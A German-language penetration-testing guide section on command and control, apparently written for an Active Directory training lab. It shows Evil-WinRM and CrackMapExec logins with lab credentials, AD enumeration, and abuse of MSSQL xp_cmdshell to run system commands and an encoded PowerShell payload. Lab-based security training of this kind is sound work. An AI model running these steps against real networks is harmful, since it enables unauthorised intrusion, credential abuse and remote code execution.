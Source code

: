 
## Phase 5: Command & Control (C2)

### 5.1 PowerShell-Remoting via WinRM

#### WinRM-Verbindungen testen
```bash
# Mit CrackMapExec WinRM testen
crackmapexec winrm 192.168.20.0/24 -u jon.snow -p iknownothing

# Mit Evil-WinRM (Installation)
gem install evil-winrm

# Evil-WinRM-Verbindung
evil-winrm -i 192.168.20.11 -u jon.snow -p iknownothing
```

#### PowerShell-Befehle über WinRM
```powershell
# In Evil-WinRM-Session
PS> Get-ADUser -Filter * -Properties * | Select Name,SamAccountName,Description
PS> Get-ADGroup -Filter * | Select Name,GroupScope,GroupCategory
PS> Get-ADComputer -Filter * | Select Name,OperatingSystem,LastLogonDate

# Lokale Gruppen-Mitgliedschaften
PS> net localgroup administrators
PS> whoami /groups
```

### 5.2 SQL Server-Exploitation

#### MSSQL-Verbindungen mit Impacket
```bash
# SQL Server-Verbindung testen
impacket-mssqlclient -windows-auth sql_svc@192.168.20.22
impacket-mssqlclient -windows-auth sql_svc@192.168.20.23

# Alternative: Mit kompromittierten Domain-Credentials
impacket-mssqlclient -windows-auth north.sevenkingdoms.local/jon.snow:iknownothing@192.168.20.22
```

#### SQL Server-Befehle für Privilege Escalation
```sql
-- xp_cmdshell aktivieren (falls deaktiviert)
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

-- System-Befehle ausführen
EXEC xp_cmdshell 'whoami';
EXEC xp_cmdshell 'net user';
EXEC xp_cmdshell 'ipconfig /all';

-- PowerShell-Download und -Ausführung
EXEC xp_cmdshell 'powershell.exe -enc <base64_encoded_payload>';
```

---